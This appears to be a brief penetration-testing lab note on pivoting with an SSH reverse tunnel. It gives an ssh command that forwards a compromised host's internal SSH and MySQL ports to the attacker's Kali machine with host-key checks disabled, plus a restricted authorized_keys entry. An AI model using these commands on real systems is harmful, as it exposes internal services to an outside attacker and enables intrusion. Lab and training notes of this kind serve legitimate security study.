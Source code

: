 # SSH Reverse Tunnel

## Connecting from victim box to our kali box and restricting access

No password will be use, thus we will be using ssh keys.

### Connecting to our kali ssh server

```text
ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o
"UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa
kali@10.11.0.4
```

### Adding ssh public key to authorized hosts with restrictions.

```text
from="10.11.1.250",command="echo 'This account can only be used for port
forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa ssh-rsa
AAAAB3NzaC1yc2EAAAADAQABAAABAQCxO27JE5uXiHqoUUb4j9o/IPHxsPg+fflPKW4N6pK0ZXSmMfLhjaHyhU
r4auF+hSnF2g1hN4N2Z4DjkfZ9f95O7Ox3m0oaUgEwHtZcwTNNLJiHs2fSs7ObLR+gZ23kaJ+TYM8ZIo/ENC68
Py+NhtW1c2So95ARwCa/Hkb7kZ1xNo6f6rvCqXAyk/WZcBXxYkGqOLut3c5B+++6h3spOPlDkoPs8T5/wJNcn8
i12Lex/d02iOWCLGEav2V1R9xk87xVdI6h5BPySl35+ZXOrHzazbddS7MwGFz16coo+wbHbTR6P5fF9Z1Zm9O/
US2LoqHxs7OxNq61BLtr4I/MDnin www-data@ajla
```

